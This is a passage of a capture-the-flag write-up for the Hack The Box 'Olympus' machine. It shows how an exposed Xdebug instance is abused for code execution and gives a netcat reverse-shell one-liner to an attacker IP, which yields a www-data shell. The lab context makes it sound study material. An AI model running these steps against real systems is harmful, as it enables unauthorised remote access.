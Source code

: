 ## Checking HTTP (Port 80)

On the web page there is only an image of the face of a statue allegedly from Zeus because the image is called _zeus.jpg_.
When looking at the Response header of the site with any proxy tool like **Burpsuite**, there is an unusual parameter called _Xdebug_:
```markdown
HTTP/1.1 200 OK
(...)
Xdebug: 2.5.5
(...)
```

This is a debug instance that a developer can connect to, to debug the web application.
Generally this service only listens on localhost, but lets see if it has some misconfigurations.

### Exploiting Xdebug

For this I will use the [Xdebug Chromium extension](https://chrome.google.com/webstore/detail/xdebug/nhodjblplijafdpjjfhhanfmchplpfgl).
After clicking on _LISTEN_ it listens on the localhost on port 9000. Now to connect to the servers Xdebug connection, it needs the following HTTP request:
```markdown
GET /?XDEBUG_SESSION_START=SessionName HTTP/1.1
Host: 10.10.10.83
(...)
```

This doesn't show any response but in the Xdebug extension, it shows the whole script from the web page.
I will set a breakpoint on line 20 and append a test string to it:

![Xdebug Test](https://kyuu-ji.github.io/htb-write-up/olympus/olympus_xdebug-1.png)

After changing the variable, click _Run_ again and **Burpsuite** will show the added string, which means it is possible to change contents on the page.
Lets try code execution by sending a `ping` command:
```markdown
system("ping -c 1 10.10.14.36")
```

Now listening on ICMP packets with `tcpdump -i tun0 icmp` and it worked, which means successful code execution and starting a reverse shell:
```markdown
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.36 9001 >/tmp/f
```

After sending the request, the listener on my IP and port 9001 starts a revere shell session as _www-data_.

## Privilege Escalation 1

When checking the `hostname` and the IP address of the current environment, it becomes clear that this is not the box, but a virtualized client on the box itself:
```markdown
hostname: _f00ba96171c5_
ifconfig: _inet addr:172.20.0.2_
```

